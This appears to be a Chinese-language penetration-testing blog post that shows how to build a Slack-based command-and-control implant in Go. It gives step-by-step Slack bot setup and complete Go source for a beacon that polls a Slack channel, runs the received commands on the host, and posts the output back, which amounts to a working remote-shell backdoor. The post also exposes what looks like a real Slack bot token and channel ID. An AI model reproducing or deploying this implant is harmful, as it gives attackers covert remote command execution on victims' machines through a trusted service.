 ```yaml
---
title: "Slack Golang C2"
date: 2020-10-03T23:57:50+08:00
draft: false
tags:
- go
- c2
- Slack
series:
-
categories:
- 渗透测试
---
```



最近在学golang，恰好看到demon分析的golang slack c2，便想着自己也来写一写。
<!--more-->

# 配置slack
注册账号什么的就不说了。访问 https://api.slack.com/ 点击 `Start Building`
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/dc3e5b61-4384-6b3c-0bf6-3c850bcd4716.png)

创建一个app
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/ea267bba-e73e-0625-3680-b40a02c7c70f.png)

左侧`OAuth & Permissions` -> `Scopes` 配置token权限，暂时先配置两个，之后用哪个再加。

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/aea99b7f-6fed-a6f8-079b-bf48c2667ac6.png)

然后往上翻点`Install App to Workspace`

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/697544f1-e014-6fb9-8504-173932481567.png)

点allow，然后会自动跳转到token界面，记住这个token。

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/84e2a010-7c5f-0bfa-9a48-970282378400.png)

```text
xoxb-1413293450689-1403506559507-aWLcahb6cGLZWGHF61QPV17S
```
创建一个channel
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/fade1c37-c2f2-2a59-4786-b8bdd3ed7f9b.png)


记住你的channel链接`https://app.slack.com/client/T01C58MD8L9/C01BS6GEUJH`中的`C01BS6GEUJH`
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/eb1412aa-4741-2fcd-e50f-9ab3f5117882.png)

通过 `/invite @myslackbot`把bot加到频道里。

然后在`https://api.slack.com/methods`是操作bot的所有api，先用`https://api.slack.com/methods/conversations.history/test`测试下获取聊天记录

配置好token和channel ID
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/5281e9f3-f145-d07d-e334-367dc2fd3bc9.png)

点test之后获取到聊天记录
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/cd6fd11a-84fa-eb73-a34b-4baa8f4d36b1.png)


![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/593424/b68b1d1c-37b9-40f9-e99a-82cefdd50251.png)

简单的流程知道了，接下来通过golang来操作api，以及编写我们的C2。

# golang编写

```golang
package main

import (
	"fmt"
	"github.com/tidwall/gjson"
	"io/ioutil"
	"net/http"
	"os"
	"os/exec"
	"strings"
	"time"
)

const (
	History_api = "https://slack.com/api/conversations.history"
	PostMessage = "https://slack.com/api/chat.postMessage"
	Token       = "xoxb-1413293450689-1403506559507-aWLcahb6cGLZWGHF61QPV17S"
	Channel     = "C01BS6GEUJH"
)

func main() {
	for true {
		time.Sleep(time.Second * 10)
		result := getHistory()
		if strings.HasPrefix(result.Str, "shell") {
			cmdRes := ExecCommand(strings.Split(result.Str, " ")[1])
			putRes(cmdRes)
		} else if strings.HasPrefix(result.Str, "exit") {
			os.Exit(0)
		} else {
			fmt.Println("no command")
		}
	}
}

func getHistory() (result gjson.Result) {
	req, err := http.NewRequest("GET", History_api, nil)
	if err != nil {
		return gjson.Result{}
	}
	q := req.URL.Query()
	q.Add("token", Token)
	q.Add("channel", Channel)
	q.Add("pretty", "1")
	q.Add("limit", "1")
	req.URL.RawQuery = q.Encode()

	resp, err := http.DefaultClient.Do(req)
	if err != nil {
		return gjson.Result{}
	}
	defer resp.Body.Close()
	byte, _ := ioutil.ReadAll(resp.Body)
	result = gjson.GetBytes(byte, "messages.0.text")
	return
}

func putRes(res string) {
	req, err := http.NewRequest("POST", PostMessage, nil)
	if err != nil {
		return
	}
	p := req.URL.Query()
	p.Add("token", Token)
	p.Add("channel", Channel)
	p.Add("pretty", "1")
	p.Add("text", res)
	req.URL.RawQuery = p.Encode()
	resp, err := http.DefaultClient.Do(req)
	defer resp.Body.Close()
	if err != nil {
		return
	}

}

func ExecCommand(command string) (out string) {
	cmd := exec.Command(command)
	o, err := cmd.CombinedOutput()

	if err != nil {
		out = fmt.Sprintf("shell run error: \n%s\n", err)
	} else {
		out = fmt.Sprintf("combined out:\n%s\n", string(o))
	}
	return
}
```

看下效果

{{< bilibili BV1uk4y1C7oP >}}



自己偷偷摸摸实现了很多功能，就不放了，通过slack的API可以做很多事情。


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**

